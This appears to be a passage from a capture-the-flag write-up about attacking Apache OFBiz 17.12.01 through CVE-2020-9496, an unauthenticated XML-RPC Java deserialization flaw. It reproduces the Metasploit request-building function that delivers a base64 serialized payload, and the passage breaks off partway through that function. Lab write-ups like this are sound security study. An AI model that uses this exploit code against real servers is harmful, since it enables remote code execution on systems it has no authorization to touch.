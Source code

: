 ```
```

I could go back and configure it to just do a depth of 1, but before doing that, I checked out `/solr`. It turns out any of the pages will redirect to a login page:

![image-20210423081218311](https://0xdfimages.gitlab.io/img/image-20210423081218311.png)

At the bottom right it says “Powered by Apache OFBiz. Release 17.12.01”.

#### Exploits

Searching for “OFBiz exploit” returns a good number of results. There’s an interesting password reset CSRF, but that doesn’t seem to apply here. [This post from Zero Day Initiative](https://www.zerodayinitiative.com/blog/2020/9/14/cve-2020-9496-rce-in-apache-ofbiz-xmlrpc-via-deserialization-of-untrusted-data) looks interesting. It’s a Java deserialization issue at `/webtools/control/xmlrpc`, and the vulnerability is unauthenticated.

Visiting `https://localhost:8443/webtools/control/xmlrpc` returns a error:

![image-20210423081808874](https://0xdfimages.gitlab.io/img/image-20210423081808874.png)

This is promising, as it shows the endpoint is there and that I didn’t get any permissions errors, just an error that I didn’t submit the proper request.

The blog post goes into really good detail of exactly where the vulnerability it, and then concludes with:

> To trigger the vulnerability, an attacker would send an HTTP request containing a crafted serialized object in an XML format to the affected target. The vulnerability is triggered when the server deserializes the XML data.

### Exploit

#### Find POC

A search for “CVE-2020-9496 POC” returns [this Packetstrom post](https://packetstormsecurity.com/files/161769/Apache-OFBiz-XML-RPC-Java-Deserialization.html) for a Metasploit module exploiting this vulnerability. The important part is the `send_request_xmlrpc` function:

```

  def send_request_xmlrpc(data)
    # http://xmlrpc.com/
    # https://ws.apache.org/xmlrpc/
    send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/webtools/control/xmlrpc'),
      'ctype' => 'text/xml',
      'data' => <<~XML
        <?xml version="1.0"?>
        <methodCall>
          <methodName>#{rand_text_alphanumeric(8..42)}</methodName>
          <params>
            <param>
              <value>
                <struct>
                  <member>
                    <name>#{rand_text_alphanumeric(8..42)}</name>
                    <value>
                      <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">#{Rex::Text.encode_base64(data)}</serializable>
                    </value>
                  </member>
                </struct>
              </value>
            </param>
          </params>
```